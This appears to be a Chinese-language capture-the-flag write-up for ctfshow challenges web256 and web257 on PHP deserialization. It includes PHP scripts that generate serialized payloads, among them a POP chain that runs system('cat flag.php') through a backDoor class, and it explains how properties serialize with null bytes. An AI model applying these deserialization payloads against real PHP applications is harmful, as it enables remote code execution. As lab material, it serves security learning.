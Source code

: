 Cookie 要 urlencode

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141145465.png)

## web256

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141147379.png)

username 和 password 不能相等

payload

```php
<?php

class ctfShowUser{
    public $username = 'aaa';
    public $password = 'bbb';
    public $isVip = true;
};

echo serialize(new ctfShowUser());

?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141151958.png)

## web257

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141152760.png)

一个简单的 pop 链构造

public 的属性被序列化后会变成 `属性名`

protected 的属性被序列化后会变成 `%00*%00属性名`

private 的属性被序列化后会变成 `%00类名%00属性名`

这里需要提前 urlencode, 因为浏览器无法显示 00 空字符

```php
<?php

class ctfShowUser{
    private $username = '123';
    private $password = '123';
    private $class;
    
    function __construct($class){
        $this->class = $class;
    }
};

class backDoor{
    private $code = 'system("cat flag.php");';
}

$o = new ctfShowUser(new backDoor());

echo urlencode(serialize($o));

?>
```
